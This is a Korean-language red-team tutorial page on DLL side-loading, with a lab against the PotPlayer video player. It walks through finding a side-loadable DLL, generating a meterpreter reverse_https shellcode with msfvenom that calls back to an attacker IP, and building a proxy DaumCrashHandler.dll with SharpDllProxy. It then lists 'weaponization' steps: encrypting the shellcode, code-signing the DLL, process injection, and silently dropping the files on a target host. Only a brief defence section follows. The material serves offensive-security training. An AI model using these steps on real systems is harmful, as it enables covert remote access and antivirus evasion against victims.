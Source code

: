 # DLL 사이드로딩 (DLL Side-Loading)

DLL 사이드로딩 (DLL Side-Loading)은 기본적으로 DLL 하이재킹 (DLL Search Order Hijacking) 과 비슷하지만, 조금 다른 기법이다. 윈도우에서 특정 프로그램들은 실행될 때 런타임 중 DLL을 불러와 필요한 코드를 실행한다. 이 때 이름은 같지만 공격자가 생성한 DLL을 프로그램 실행파일 (`.exe` ) 과 같은 디렉토리에 놔둬 공격자의 DLL이 로드되어 코드를 실행하도록 하는 공격이다.&#x20;

DLL 사이드로딩은 DLL 프록시로딩 (DLL Proxy Loading)이라고도 불리는데, 이는 로딩된 공격자의 DLL 맨 처음 Attach 될 때 실행하는 악성코드를 제외하고 프로그램이 요청하는 모든 DLL 함수들을 실제 DLL에게 모두 프록시 해 실행하기 때문이다. 때문에 프로그램의 입장에서는 비록 공격자의 DLL이 불려와졌다곤 해도, 필요한 DLL 함수들은 실제 DLL에서 제대로 다 불러와 쓰기 때문에 프로그램이 크래시 되지 않는다.&#x20;

&#x20;

![출처: https://www.flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html 를 기반으로 수정한 다이어그램](../.gitbook/assets/dllsideloading.drawio.png)

### 실습&#x20;

실습은 K사의 32비트 기반 동영상 플레이어 프로그램을 기반으로 진행한다. 이와 관련된 연구는 이미 [2019년도에 공개](https://github.com/mandiant/DueDLLigence)되었으며, DLL 사이드로딩은 제로데이가 아닌 윈도우의 기능을 이용하는 방법일 뿐임을 알린다. **심지어 마이크로소프트사에서는 이를 취약점으로 인정하지 않기 때문에 패치도 없다!** 연구자들이 발표한 특정 DLL의 사이드로딩은 패치가 되어 막혔지만, 다른 라이브러리를 사이드로딩해 이를 우회할 수 있다.&#x20;

#### DLL 사이드로딩 정보 수집&#x20;

먼저 ConsciousHacker의 [WFH툴](https://github.com/ConsciousHacker/WFH)을 이용해 PE바이너리가 어떤 라이브러리들을 로딩하는지, 그 라이브러리들 중 어떤 라이브러리가 사이드로딩이 가능한지 확인한다.&#x20;

```
PS C:\opt\WFH> python .\wfh.py -t "C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe" -m dll
==================================================
Running Frida against C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe
--------------------------------------------------
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll, LPCSTR: PreprocessCmdLineExW
        < ... >
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: SetCrashHandler
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: GetCrashHandler
        < ... >
```

이외에도 `DllMain` 과 `DllExport` 가 모두 사용 가능한 라이브러리들이 많이 나오지만, 일단 `PotPlayer.dll` 과 `DaumCrashHandler.dll` 에 주목한다. `PotPlayer.dll` 은 공개된 연구 이후 패치를 더해 사이드로딩이 막혔지만, `DaumCrashHandler.dll` 은 사이드로딩이 가능하다. 사이드로딩이 가능하다는 정보를 수집했으니 쉘코드와 프록시 DLL 생성 단계로 넘어간다.&#x20;

#### 프록시 DLL 생성&#x20;

DLL 생성 전, 공격에 사용될 쉘코드를 만든다. .NET 어셈블리를 donut 형태로 만들수도 있지만, 간단한 PoC를 위해 msfvenom을 이용해 meterpreter 쉘코드를 작성한다. 32비트 기반 프로그램과 DLL이기 때문에 쉘코드도 x86로 만든다.&#x20;

```
msfvenom -p windows/meterpreter/reverse_https -f raw lhost=192.168.40.182 lport=443 -o meter-x86.bin
```

이후 DLL과 쉘코드를 한 디렉토리에 옮긴 뒤, FlangVik의 [SharpDLLProxy툴](https://github.com/Flangvik/SharpDllProxy)을 이용해 프로그램에 로드가될 공격자의 프록시 DLL을 생성한다.&#x20;

```
# .\SharpDllProxy.exe --dll .\DaumCrashHandler.dll --payload .\meter-x86.bin

< ... > 

# ls


    Directory:
    C:\opt\SharpDllProxy\SharpDllProxy\bin\Debug\netcoreapp3.1\output_DaumCrashHandler


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/1/2022   6:35 PM           2444 DaumCrashHandler_pragma.c
-a----          7/1/2022   6:35 PM         131232 tmp4405.dll
```

그러면 DLL 1개와 `.c` 소스코드 1개가 생긴다. 이 `tmp4405.dll` 이라는 파일은 이름이 바뀐 원래 `DaumCrashHandler.dll` 파일이다. 프록시 DLL이 될 파일은 `DaumCrashHandler_pragma.c` 이며, VS나 MVSC, CMake 등을 이용해 컴파일 해서 DLL로 만들면 된다.&#x20;

이제 준비된 파일들은 다음과 같다:&#x20;

* PotPlayerMini.exe - 실제로 실행될 PE 바이너리&#x20;
* tmp4405.dll - 원래 `DaumCrashHandler.dll` 파일. 이름만 바뀐 형태다.&#x20;
* DaumCrashHandler.dll - 공격자가 생성해낸, attach 시 쉘코드를 실행하는 프록시 DLL
* meter.bin - raw 형태의 쉘코드 파일. DaumCrashHandler.dll 가 attach이 이 쉘코드가 실행된다.&#x20;
* PotPlayer.dll - PotPlayerMini.exe가 실행할 때 꼭 필요한 라이브러리&#x20;

이제 이를 실행시키면 다음과 같은 형태로 코드 실행이 일어난다.&#x20;

1. PotPlayerMini.exe 파일이 실행되며 LoadLibrary를 이용해 DaumCrashHandler.dll 을 로드
2. DaumCrashHandler.dll 은 attach 되는 즉시 같은 디렉토리내의 meter.bin을 읽어와 실행&#x20;
3. PotPlayerMini.exe가 DaumCrashHandler.dll에서 사용하고 싶은 함수들은 모두 실제 DLL인 tmp4405.dll 에게 프록시되어 실행



암호화되지 않은, 기본적인 meterpreter 쉘코드와 인터넷에 공개되어 있는 PoC를 기반으로 실행한 DLL 사이드로딩의 결과는 다음과 같다.&#x20;

![](../.gitbook/assets/dll-sideloading.gif)

### 작전보안과 무기화&#x20;

위는 PoC 형태기 때문에 실제 작전에서 쓰이기에는 부족하다. 작전보안이나 무기화를 위해서는 다음과 같은 것들을 준비해야한다:&#x20;

1. meter.bin을 파일시스템에 드랍하는 것이 아닌, 쉘코드 형태로 DaumCrashHandler.dll 안에 넣어서 실행&#x20;
2. meter.bin 쉘코드를 암호화 한 뒤, 런타임 중 복호화해 실행&#x20;
3. 프록시 dll인 DaumCrashHandler.dll 파일에 [LimeLighter](https://github.com/Tylous/Limelighter)등의 툴을 이용해 디지털 서명 부과&#x20;
4. 메인 프로세스에 쉘코드를 로드하는 방식이 아닌 프로세스 인젝션을 통해 다른 프로세스에 인젝션&#x20;
5. PotPlayerMini.exe, tmp4405.dll, DaumCrashHandler.dll, PotPlayer.dll을 타겟 호스트에 같이 드랍하기 편하도록 압축 + 암호화 진행. 이후, 초기 침투 페이로드에서 코드 실행을 이용해 압축을 풀고 복호화를 진행한 후, PotPlayerMini.exe의 창이 보이지 않도록 silent 하게 실행&#x20;

### 대응 방안&#x20;

DLL 사이드로딩의 경우 블루팀이 이를 막는 방법도 있지만, 근본적으로는 소프트웨어 개발자 분들이 이를 원천봉쇄해야한다. DLL manifest 파일을 생성해 정해진 이름과 해시값의 DLL만 프로그램에 로드될 수 있도록 하는 것이 좋다.&#x20;

엔드 유저의 입장에서는, 어쨌든 공격자는 초기 침투 이후에 DLL 사이드로딩 기법을 사용하기 때문에 공격자에게 초기 침투 기회 자체를 제공하지 않는 것이 좋다.&#x20;

더 자세한 대응 방안을 위해서는 아래 Fireeye사의 레퍼런스의 페이지 10\~11을 참고한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/" %}

{% embed url="https://github.com/ConsciousHacker/WFH" %}

{% embed url="https://github.com/Flangvik/SharpDllProxy" %}

{% embed url="https://www.mandiant.com/sites/default/files/2021-09/rpt-dll-sideloading.pdf" %}
